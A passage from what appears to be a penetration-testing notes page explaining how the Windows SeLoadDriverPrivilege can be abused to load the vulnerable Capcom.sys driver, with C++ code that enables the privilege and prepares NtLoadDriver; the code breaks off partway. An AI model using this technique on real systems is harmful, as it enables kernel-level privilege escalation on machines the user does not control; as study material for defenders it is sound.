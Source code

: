 We compile and launch the application and the privilege is now enabled:

![](../../.gitbook/assets/screenshot-from-2018-12-17-22-45-54.png)

### Capcom.sys Driver Exploit

To further prove the `SeLoadDriverPrivilege` is dangerous, let's see how we can easily exploit it.

Let's build on the previous code and leverage the Win32 API call ntdll.NtLoadDriver\(\) to load our malicious kernel driver `Capcom.sys`. Note that lines 55 and 56 of the `privileges.cpp` are:

```cpp
PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
PCWSTR pPathSourceReg = L"\\registry\\machine\\System\\CurrentControlSet\\Services\\SomeService";
```

The first one declares a string variable indicating where the vulnerable Capcom.sys driver is located on the victim system and the second one is a string variable indicating a service name that will be used \(could be any service\) to execute the exploit:

{% code-tabs %}
{% code-tabs-item title="privileges.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <ntsecapi.h>
#include <stdlib.h>
#include <locale.h>
#include <iostream>
#include "stdafx.h"

NTSTATUS(NTAPI *NtLoadDriver)(IN PUNICODE_STRING DriverServiceName);
VOID(NTAPI *RtlInitUnicodeString)(PUNICODE_STRING DestinationString, PCWSTR SourceString);
NTSTATUS(NTAPI *NtUnloadDriver)(IN PUNICODE_STRING DriverServiceName);

int main()
{
	TOKEN_PRIVILEGES tp;
	LUID luid;
	bool bEnablePrivilege(true);
	HANDLE hToken(NULL);
	OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

	if (!LookupPrivilegeValue(
		NULL,            // lookup privilege on local system
		L"SeLoadDriverPrivilege",   // privilege to lookup 
		&luid))        // receives LUID of privilege
	{
		printf("LookupPrivilegeValue error: %un", GetLastError());
		return FALSE;
	}
	tp.PrivilegeCount = 1;
	tp.Privileges[0].Luid = luid;
	
```